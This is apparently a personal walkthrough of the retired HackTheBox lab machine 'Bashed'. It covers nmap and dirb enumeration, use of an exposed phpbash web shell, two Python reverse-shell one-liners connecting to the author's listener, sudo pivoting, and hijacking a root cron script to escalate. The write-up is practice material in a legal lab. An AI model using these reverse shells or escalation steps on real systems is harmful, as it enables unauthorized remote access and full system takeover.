




Practicing Retired HacktheBox Machines.
crazyeights@es-base:~$ nmap -PS 10.10.10.68
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-02 13:53 EST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 2.09 seconds
crazyeights@es-base:~$ sudo nmap -sS 10.10.10.68
Not shown: 999 closed ports
PORT STATE SERVICE
80/tcp open http
Index Page:
Read the first post, and you will find that there is a web shell tool hosted somewhere on the server. If we find it we can try to get a reverse shell.
crazyeights@es-base:~$ dirb http://10.10.10.68
---- Scanning URL: http://10.10.10.68/ ----
==> DIRECTORY: http://10.10.10.68/css/
==> DIRECTORY: http://10.10.10.68/dev/
==> DIRECTORY: http://10.10.10.68/fonts/
==> DIRECTORY: http://10.10.10.68/images/
+ http://10.10.10.68/index.html (CODE:200|SIZE:7743)
==> DIRECTORY: http://10.10.10.68/js/
==> DIRECTORY: http://10.10.10.68/php/
+ http://10.10.10.68/server-status (CODE:403|SIZE:299)
==> DIRECTORY: http://10.10.10.68/uploads/
The phpbash web shell can be found in the folder dev:
Tried running several commands
There seemed to sometype of input sanitization that modified the commands before they were sent to the server (this might also not have been the case, other people didn't seem to have this problem when I looked after, I did a bunch of unecessary stuff to try to get it to work including creating a second webshell)
Used insomnia to bypasss this
Start the listener
nc -lvp 1234
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
We get a shell:
crazyeights@es-base:~$ nc -lvp 1234
listening on [any] 1234 ...
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cd /home
$ ls
arrexel
scriptmanager
$ cd arrexel
$ ls
user.txt
$ cat user.txt
2c281_i_dont_want_to_get_in_trouble
sudo -l
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
$ sudo -u scriptmanager python3 -c 'import pty; pty.spawn("/bin/bash")'
scriptmanager@bashed:/var/www$
scriptmanager@bashed:~$ find / -user scriptmanager 2>/dev/null
find / -user scriptmanager 2>/dev/null
/scripts
/scripts/test.py
/home/scriptmanager
We find the folder scripts in the root dir. Its location suggests that it may be used for something...
In the folder we find the file test.txt which is owned by root
It was also recently modified suggesting there might be a cronjob for this folder:
scriptmanager@bashed:/scripts$ ls -lia
ls -lia
total 16
393492 drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 2017 .
2 drwxr-xr-x 23 root root 4096 Dec 4 2017 ..
402847 -rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
393805 -rw-r--r-- 1 root root 12 Jan 2 12:05 test.txt
scriptmanager@bashed:/scripts
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!scriptmanager@bashed:/scripts$
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
Start the listener:
nc -lvp 9999
Insert the reverse shell:
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > test.py
crazyeights@es-base:~$ nc -lvp 9999
listening on [any] 9999 ...
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
cc4f_i_dont_want_to_get_in_trouble
#
# crontab -l
* * * * * cd /scripts; for f in *.py; do python "$f"; done
#
FIN. 🥳